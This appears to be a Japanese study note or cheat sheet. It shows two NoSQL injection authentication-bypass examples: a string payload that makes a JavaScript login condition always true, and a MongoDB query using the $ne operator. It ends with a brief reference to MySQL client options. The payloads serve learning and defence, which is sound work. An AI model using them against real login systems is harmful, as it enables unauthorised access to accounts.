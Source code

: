 #### 攻撃例1

NoSQLを用いた認証の典型的なコード例

```jsx
this.username === '${value}' && this.password === '${value}'
```

`username`に対してユーザ名が `admin` という前提のもと、以下のようなペイロードを入力する。

```jsx
admin' || '' === '
```

すると上記コード部分はこのようになり、常にtrueとなる。

```jsx
this.username === 'admin' || '' === '' && this.password === 'value'
```

#### 攻撃例2

認証コード例

```jsx
const users = await User.find({
   username: username,
   password: password,
});
```

`username` や `password` が文字列ではなくオブジェクトとして受け取っていた場合以下のようなペイロードを入力すると認証突破できる場合がある。

```jsx
const users = await User.find({
  username: 'john',
  password: {
    $ne: 'dummy'
  },
});
```

`$ne` はNot equalを意味するMongoDBの比較用のオペレータ。

[MongoDBにおけるNoSQLインジェクション: 脆弱性の仕組みと対策 - Qiita](https://qiita.com/AeyeScan/items/c48938baff367cf0e4f3)

## MySQL

```bash
mysql -u USER_NAME -p -h IP_ADDRESS
```
オプションは以下。

|オプション|説明|
|---|---|
|-u|引数にユーザ名を取る|
|-p|引数にパスワードを取る(パスワードは-pの直後に空白を入れずに書く|
|-h|引数にmysqlサーバのホスト名またはIPアドレスを取る。このオプションがないとlocalhostに接続する|
|—skip-ssl|SSLをスキップ|
|-e|引数にSQLのコマンドを取る|
